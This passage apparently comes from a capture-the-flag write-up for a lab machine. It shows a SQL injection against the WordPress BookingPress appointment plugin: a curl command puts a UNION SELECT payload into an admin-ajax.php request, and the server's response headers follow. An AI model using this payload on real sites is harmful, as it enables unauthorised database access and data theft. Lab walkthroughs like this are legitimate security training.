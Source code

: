 Not much to see here, but the source code is much more interesting.

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

As luck would have, bookingpress-appointment has a vulnerability([https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)) that let's us inject SQL. Note that \_wpnonce will need to be changed as we need to trick the server into thinking the request is legit.

```
┌──(kali㉿kali)-[~]                                                                                                                                                                                                                         
└─$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \                                                                                                                                                                                
  --data 'action=bookingpress_front_get_category_services&_wpnonce=0aee0f5c43&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'                                        
HTTP/1.1 200 OK                                                                                                                                                                                                                             
Server: nginx/1.18.0                                                                                                                                                                                                                        
Date: Wed, 08 Feb 2023 00:14:46 GMT                                                                                                                                                                                                         
Content-Type: text/html; charset=UTF-8                                                                                                                                                                                                      
Transfer-Encoding: chunked                                                                                                                                                                                                                  
Connection: keep-alive                                                                                                                                                                                                                      
X-Powered-By: PHP/8.0.24                                                                                                                                                                                                                    
X-Robots-Tag: noindex                                                                                                                                                                                                                       
X-Content-Type-Options: nosniff                                                                                                                                                                                                             
```